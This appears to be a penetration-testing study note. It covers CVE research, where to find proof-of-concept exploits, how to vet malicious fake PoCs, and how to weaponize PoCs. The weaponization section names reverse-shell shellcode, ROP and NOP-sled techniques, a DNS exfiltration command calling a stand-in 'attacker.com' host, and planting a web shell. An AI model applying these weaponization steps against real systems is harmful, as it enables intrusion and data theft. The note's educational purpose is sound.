

# CVE Research and Finding Proof of Concepts (PoCs)

## 1. Introduction to Vulnerability Naming and Tracking

The Common Vulnerabilities and Exposures (CVE) system is the industry standard for identifying publicly known cybersecurity vulnerabilities. Maintained by MITRE Corporation and sponsored by CISA, the CVE dictionary ensures that when disparate tools, scanners, and researchers discuss a vulnerability, they are all referring to the exact same flaw.

### 1.1 The Anatomy of a CVE
A CVE identifier follows a specific format: `CVE-[Year]-[Sequential Number]`.
- Example: `CVE-2021-44228` (The famous Log4Shell vulnerability).
- The year represents the year the vulnerability was reported or assigned, not necessarily the year it was discovered or patched.

### 1.2 NVD and CVSS
While MITRE maintains the CVE list (which is essentially just an ID, a brief description, and references), the National Vulnerability Database (NVD), maintained by NIST, enriches this data. The NVD analyzes the CVE and provides the Common Vulnerability Scoring System (CVSS) score, mapping it to specific affected products (CPE - Common Platform Enumeration), and providing mitigation steps.

## 2. What is a Proof of Concept (PoC)?

A Proof of Concept (PoC) in cybersecurity is a piece of code, a script, or a specific set of instructions that demonstrates how a vulnerability can be exploited in a controlled environment. 
- **Benign PoC:** Demonstrates the flaw without causing harm (e.g., executing `/bin/id` or launching `calc.exe`).
- **Weaponized Exploit:** A PoC that has been modified to deploy a malicious payload, such as a reverse shell or ransomware.

For VAPT professionals, finding a working PoC is often the difference between reporting a vulnerability as "Theoretical Risk" versus "Confirmed Critical Compromise."

## 3. The Lifecycle of CVE Research

## 4. Methodology: Where to Find PoCs

Finding a reliable, working PoC is an art form. The landscape of exploit sharing has decentralized over the years.

### 4.1 Primary Repositories
- **Exploit-DB (exploit-db.com):** Maintained by Offensive Security. Highly curated, tested, and reliable. However, they are often slower to publish brand-new 0-days or complex enterprise exploits due to their verification process.
- **Packet Storm Security:** One of the oldest security sites. Contains a massive archive of exploits, advisories, and tools.
- **0day.today:** An exploit market and database. Contains free public exploits as well as private ones for sale.

### 4.2 GitHub and Code Repositories
GitHub is currently the most prolific source of fresh PoCs. Researchers often publish their code to GitHub immediately after releasing a blog post.
- **Search Strategy:** Search GitHub for `"CVE-202X-XXXX"`.
- **Curated Lists:** Repositories like `trickest/cve` or Nomifactory maintain daily updated lists of GitHub repos containing PoCs.

### 4.3 Twitter (X) and InfoSec Social Media
The bleeding edge of vulnerability research happens on social media. Researchers will often post screenshots of `calc.exe` popping with a partial command line. Following key vulnerability researchers and using advanced search queries (e.g., `CVE-2023-xxxx filter:media`) is essential for rapid response during a zero-day crisis.

### 4.4 Exploit Frameworks
- **Metasploit Framework:** Checking if a module exists (`search cve:2021-44228`). Metasploit modules are highly weaponized and reliable.
- **Nuclei:** ProjectDiscovery's Nuclei relies on YAML templates. Searching the `nuclei-templates` repository is an excellent way to find PoCs for web-based CVEs, as the templates clearly outline the exact HTTP request required.

## 5. The Danger of Fake and Malicious PoCs

This is a critical hazard for penetration testers. Threat actors actively monitor Twitter and GitHub for trending CVEs. They will create repositories claiming to have the "First working PoC for CVE-XXXXX."

**The Trap:**
Instead of exploiting the target system, the script exploits the *researcher*. 
- A fake Python script might contain a Base64 encoded payload that downloads a Cobalt Strike beacon to the pentester's machine.
- A fake Dockerized PoC might contain cryptominers.

### 5.1 Safe PoC Evaluation Methodology
Never run an untrusted PoC directly on your host machine or production jump box.
1. **Source Code Review:** Read every line of the script. If it's a Python script with obfuscated strings, `eval()`, or `base64` decode blocks that don't make sense for the target protocol, assume it is malicious.
2. **Sandbox Execution:** Run the PoC in an isolated, non-networked virtual machine.
3. **Network Monitoring:** Run Wireshark while executing the PoC. Does the script only communicate with the target IP? If it makes a DNS request to an unknown domain or attempts to download a second-stage payload, it is a trap.

## 6. Adapting a PoC for VAPT

A public PoC is rarely ready for enterprise use.
- **Hardcoded Values:** PoCs often have hardcoded IP addresses, ports, or memory offsets specific to the researcher's lab.
- **Brittle Payloads:** The PoC might only execute `whoami`. A pentester must modify the payload delivery mechanism to support interactive shells (e.g., swapping a simple command execution for a PowerShell download cradle).
- **Crash Risks:** Many memory corruption PoCs (Buffer Overflows, UAFs) are unstable. If the target server uses a different OS version or service pack, the PoC will likely cause a Denial of Service (blue screen/kernel panic) rather than code execution.

Understanding the *root cause* of the CVE through the researcher's blog post is mandatory before firing a PoC at a client's production server.

## 7. Deep Dive: The Mechanics of Weaponizing a PoC

Transitioning a raw Proof of Concept into a functional, weaponized exploit is a core skill for advanced penetration testers. A PoC found on GitHub is often deliberately crippled to prevent script kiddies from causing damage, or it is hardcoded to a very specific, idealized lab environment.

### 7.1 Handling Python Version Chaos
A significant hurdle in VAPT engagements is the Python 2 vs. Python 3 divide. 
Many legacy PoCs (especially those written between 2010 and 2018, covering older network protocols like SMBv1, MS08-067, or early weblogic deserialization flaws) are written in Python 2.7.
- **The Issue:** Python 2 handles strings as raw bytes by default, whereas Python 3 handles them as Unicode. When sending precise binary payloads over a socket (crucial for buffer overflows), a Python 3 script will often encode the payload improperly, corrupting the exploit.
- **The Weaponization Fix:** The pentester must meticulously rewrite the socket communication blocks, ensuring that `b"raw_bytes"` formatting is used, and `.encode('utf-8')` is applied only where text strings are required by the protocol. Tools like `2to3` rarely work perfectly for network exploits.

### 7.2 Adapting Memory Corruption PoCs (Buffer Overflows)
A memory corruption PoC typically proves the vulnerability by crashing the target application (Denial of Service) or overwriting the instruction pointer (EIP/RIP) with `41414141` (AAAA).
To weaponize this:
1. **Generating Shellcode:** The pentester uses `msfvenom` to generate custom shellcode (e.g., `windows/meterpreter/reverse_tcp`).
2. **Identifying Bad Characters:** The vulnerability might not allow null bytes (`\x00`), carriage returns (`\x0d`), or specific application-layer bad characters. The shellcode must be encoded to avoid these.
3. **Handling ASLR and DEP:** Modern operating systems use Address Space Layout Randomization (ASLR) and Data Execution Prevention (DEP). 
    - The PoC might have a hardcoded `JMP ESP` address that only works on Windows 7 SP1 English.
    - The pentester must find a new, non-ASLR module in the target environment or construct a Return-Oriented Programming (ROP) chain to bypass DEP.
4. **Implementing NOP Sleds:** Adding a sequence of `\x90` (No Operation) bytes before the shellcode to provide a landing zone, compensating for slight shifts in memory alignment across different target OS versions.

### 7.3 Adapting Web Exploits and Deserialization
Web application PoCs (like Java Deserialization, PHP Object Injection, or complex SSRF chains) usually provide a mechanism to execute a single, blind command.
- **The Issue:** `Runtime.getRuntime().exec("whoami")` works in a lab, but in a real-world scenario, you can't see the output (Blind RCE), and firewalls block outbound connections on non-standard ports.
- **The Weaponization Fix:**
    - **OOB (Out of Band) Exfiltration:** Modify the payload to execute `ping <base64_output>.attacker.com`. The attacker catches the DNS query and decodes the result.
    - **Living off the Land:** Instead of dropping a malicious binary, modify the PoC to utilize tools already on the system. E.g., altering the PoC to echo an ASPX web shell directly into the `/inetpub/wwwroot/` directory, allowing persistent, firewall-friendly access over HTTP/HTTPS.

## 8. Responsible Disclosure and Ethics

When researching and developing PoCs, VAPT professionals must adhere to strict ethical guidelines.
- If you discover a 0-day vulnerability during an engagement, the first priority is securing the client.
- You must coordinate with the software vendor through a Responsible Disclosure process before publishing any PoC or blog post.
- Publishing a fully weaponized exploit for an unpatched vulnerability without warning puts the global internet infrastructure at extreme risk. Ethical researchers publish technical details or benign PoCs only after a patch is widely available.

---
## Chaining Opportunities
- **[[40 - Exploit Development Basics]]:** Taking a conceptual PoC and turning it into a stable, weaponized exploit requires deep knowledge of exploit development.
- **[[28 - Vulnerability Scanning with Nessus]]:** Scanners identify the CVE; PoC research is what allows the pentester to exploit it.
- **[[22 - Red Team Operations and Infrastructure]]:** Safe execution and weaponization of PoCs are fundamental to Red Team tool development.

## Related Notes
- [[01 - OSINT Overview and Methodology]]
- [[45 - Writing Professional Pentest Reports]]
- [[55 - Penetration Testing Methodologies]]
